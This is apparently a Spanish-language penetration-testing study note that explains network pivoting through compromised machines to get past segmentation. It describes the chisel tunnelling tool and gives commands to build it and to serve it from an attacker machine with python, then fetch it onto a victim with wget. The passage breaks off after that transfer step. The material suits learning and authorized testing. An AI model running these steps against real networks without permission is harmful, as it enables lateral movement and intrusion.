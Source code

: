 ----
- Tags: #avanzado #teoria #practica
----

# ¿ Que es el **pivoting** ?

El **pivoting** (También conocido como "*hopping*") es una técnica utilizada en pruebas de penetración y en el análisis de redes que implica el uso de una máquina comprometida para atacar otras máquinas o redes en el mismo entorno.

Por ejemplo, si un atacante ha comprometido una máquina en una red corporativa, puede utilizar técnicas de pivoting para utilizar esa máquina como punto de salto para atacar otras máquinas en la misma red que de otra manera no serían accesibles. Esto se logra a través de la creación de túneles de comunicación desde la máquina comprometida a otras máquinas en la red.

El pivoting puede ser utilizado para superar restricciones de seguridad que de otra manera impedirían a un atacante acceder a determinadas máquinas o redes. Por ejemplo, si una red corporativa utiliza segmentación de red para separara diferentes partes de la red, el pivoting puede ser utilizado para superar esta restricción y permitir que un atacante salte de una red a otra. 

----
# Conceptos 

Como sabemos el pivoting consiste en movernos desde una máquina a otra, pudiendo así llegar a tener conexión con máquinas las cuales previamente no contabamos con traza, esto se puede hacer de múltiples formas, pero una herramienta muy utilizada para el pivoting es [chisel]('https://github.com/jpillora/chisel/releases'), la cual hay que correr desde la máquina atacante como **server** y desde la/s máquina/s victima/s como **client**. 
###### Downloading Chisel (Linux)

```bash
git clone https://github.com/jpillora/chisel
cd chisel

go build -ldflags "-s -w" .
upx chisel
```
###### Downloading Chisel (Windows)

En este caso para descargar Chisel a una máquina Windows, en el apartado de *Releases* descargamos la versión que necesitemos, por ejemplo **chisel_1.7.7_windows_amd64.gz**.

Una vez que tengamos **chisel** en nuestra máquina, si deseamos hacer pivoting entre la *Máquina 1* con la *Máquina 2* para llegar a una *Máquina 3*, deberiamos trasladar el chisel a nuestra *Máquina 2*, para eso existen varías maneras (Ignorando el descargarlo desde google)

Con **python**: 
```bash
# Máquina 1 en donde este el {binary}: 
python3 -m http.server {port}
# Máquina 2: 
wget http://{ip}:{port}/{binary}
```
